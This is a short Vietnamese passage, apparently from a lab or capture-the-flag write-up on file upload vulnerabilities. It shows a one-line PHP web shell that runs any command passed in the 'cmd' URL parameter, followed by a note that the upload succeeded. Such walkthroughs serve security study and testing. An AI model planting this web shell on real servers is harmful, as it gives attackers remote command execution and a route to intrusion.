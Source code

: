     ![alt text](/File%20Upload/images/image-5.png)

- Thử thay thế nó bằng 1 file [RCE](/RCE.php) được viết bằng mã `php`:
    ```php
    <?php echo system($_GET['cmd']); ?>
    ```
    ![alt text](/File%20Upload/images/image-6.png)
- File vừa upload thành công